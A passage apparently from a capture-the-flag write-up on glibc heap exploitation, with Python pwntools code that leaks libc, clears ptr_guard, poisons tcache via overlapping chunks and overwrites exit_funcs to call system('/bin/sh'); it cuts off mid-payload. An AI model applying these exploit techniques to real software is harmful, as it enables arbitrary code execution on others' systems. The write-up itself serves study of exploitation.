 ```py
wish(p)

# leak libc base (chunk_8 is in unsorted bin)
wish(p)

leak = u64(view(p, 1).ljust(8, b"\x00"))
libc_base = leak - 0x219fc0
print(hex(libc_base))
libc.address = libc_base
```
We can now exploit last remainder chunk mechanism to do 2 small writes, which is necessary for `exit_funcs` route.
(House of Apple only needs 1 large write, it's a viable alternative). These are the targets we're interested in:
```py
def encrypt(pos, ptr):
    return (pos >> 12) ^ ptr

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

# target0: ptr_guard = 0
target0 = encrypt(heap_base + 0xa50, libc_base - 0x2890)
write0 = p64(0)

# target1: exit_funcs overwrite
target1 = encrypt(heap_base + 0xa70, libc_base + 0x21af00)
write1 = flat(
    0, 1,
    4, rol(libc.sym.system, 0x11, 64),
    next(libc.search(b"/bin/sh\x00"))
)
```

Here, we don't mind using tcache chunks anymore. In fact, it's even easier to exploit than fastbin precisely because it
skips so much logic. However, make sure to alloc at least 2 chunks, if not the `fd` we overwrite is just null and won't
be placed at target address.

```py
# extra 1 chunk per tcache bin so that we can overwrite an existing chunk ptr
# if we only used 1 chunk per bin, tcache will see that number of chunks freed < number of chunks we want
# and not allocate us target0 and target1 (it will be taken from new addresses instead)
purchase(p, b"a"*0x10) # 2
purchase(p, b"a"*0x30) # 3
purchase(p, b"b"*0x10) # 4
purchase(p, b"c"*0x30) # 5
use(p, 2)
use(p, 3)
use(p, 4)
use(p, 5)

# use overlapping chunks to control fd ptr of poisoned chunks
payload = flat(
    0, 0x21,
    0, 0,
    0, 0x21,
    0, 0,
    0, 0x41,
    0, 0,
    0, 0,
```